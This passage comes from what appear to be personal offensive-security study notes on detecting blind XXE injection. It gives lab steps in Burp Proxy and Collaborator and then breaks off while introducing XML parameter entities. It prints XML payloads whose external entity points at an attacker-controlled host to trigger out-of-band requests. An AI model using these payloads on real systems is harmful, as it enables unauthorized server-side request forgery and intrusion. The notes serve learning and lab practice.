 Detecting blind XXE can be done by using the same technique as [XXE to SSRF attacks](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FXXE%20Injection%2FCommon%20XXE%20Attacks%2FChained%20XXE%20to%20SSRF), but triggering the out-of-band network interaction to a system that an attacker control. For example, an attacker can define an external entity as follows:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
This attack will cause the server to make HTTP request to the specified URL which the attacker can monitor for the resulting DNS lookup and HTTP request, and thereby confirming a successful blind XXE.

1. In Burp Proxy, intercept the request and modify the XML in the request body with the following:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
2. Right click and select **Insert Collaborator payload**  to insert a Burp Collaborator subdomain where indicated.
3. Go to the Collaborator tab, and click **Poll now**. If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.
## Out-of-band Interaction via XML Parameter Entities
Sometimes, XXE attacks using regular entities are blocked due to input validation by the application or some hardening of the XML parser that is being used. In this situation, an attacker might use XML parameter entities instead, which are a special kind of XML entity which can only be reference within the DTO.

For this technique, an attacker only need to know two things:
1. Th declaration of an XML parameter entity includes the percent character before the entity name: